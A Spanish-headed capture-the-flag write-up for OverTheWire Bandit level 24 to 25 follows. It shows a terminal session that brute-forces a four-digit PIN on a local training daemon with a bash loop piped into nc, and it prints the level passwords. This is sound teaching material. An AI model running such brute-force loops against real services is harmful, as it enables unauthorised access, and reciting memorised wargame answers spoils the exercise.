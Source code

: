 # Bandit level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion

bandit24@bandit:~$ ns localhost 30002
Command 'ns' not found, but can be installed with:
apt install ns2
Please ask your administrator.
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.

bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost30002
nc: missing port number
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$

## Notas adicionales

## Referencias
